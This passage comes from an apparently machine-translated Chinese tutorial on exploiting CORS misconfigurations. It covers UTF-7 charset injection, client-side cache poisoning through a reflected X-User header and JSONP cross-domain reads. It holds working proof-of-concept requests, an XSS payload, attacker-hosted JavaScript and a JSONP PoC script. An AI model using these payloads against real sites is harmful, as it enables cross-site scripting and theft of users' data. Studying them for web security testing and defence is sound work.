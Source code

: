   IE解析的响应

  ```txt
  HTTP/1.1 200 OK 
  Access-Control-Allow-Origin: z 
  Content-Type: text/html; charset=UTF-7 
  ```

  前面的请求不能直接利用因为攻击者无法让受害者成为受害者浏览器发送前面的格式错误的标头。
  如果攻击者使用格式错误的“Origin”标头发送前一个请求例如使用代理或命令行然后服务器可以缓存响应并将其提供给其他人。
  在前面的示例中有效负载将页面的字符集更改为“UTF-7”众所周知这是对创建XSS漏洞很有用。

#### ⑤客户端高速缓存中毒

此配置还可能允许攻击者利用其他可能不存在的漏洞利用。
例如考虑一个在响应内部反映“`X-User`”自定义内容的应用程序标题不对其进行任何输入验证也不进行输出编码。
请求

```txt
GET /login HTTP/1.1 
Host: www.target.local 
Origin: https://attacker.domain/ 
X-User: <svg/onload=alert(1)> 
```

响应请注意“`Access-Control-Allow-Origin`”已设置但“`Access-Control-Allow-Credentialstrue`”和“`VaryOrigin`”不存在

```txt
HTTP/1.1 200 OK 
Access-Control-Allow-Origin: https://attacker.domain/ 
… 
Content-Type: text/html 
… 

Invalid user: <svg/onload=alert(1)>
```

攻击者可以利用此XSS在受控服务器上上载**以下JavaScript代码**然后诱使受害者在其上导航

```html
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','http://www.target.local/login',true); 
req.setRequestHeader('X-User', '<svg/onload=alert(1)>'); 
req.send(); 
function reqListener() { 
 location='http://www.target.local/login'; 
} 
```

如果未在响应中设置“`VaryOrigin`”标头如前面的示例所示受害者的浏览器可以将响应存储在缓存中基于浏览器行为然后直接显示它。
当浏览器导航到相关的URL时这可以通过重定向立即完成如在“`reqListener`”方法中显示。

#### ⑥jsonp跨域

poc

```javascript
<!-- 引用一段如上请求为JS -->
<script>function jsonp2(data){alert(JSON.stringify(data));}</script>
<script src="http://gh0st.cn/user/center?callback=jsonp2"></script>
```
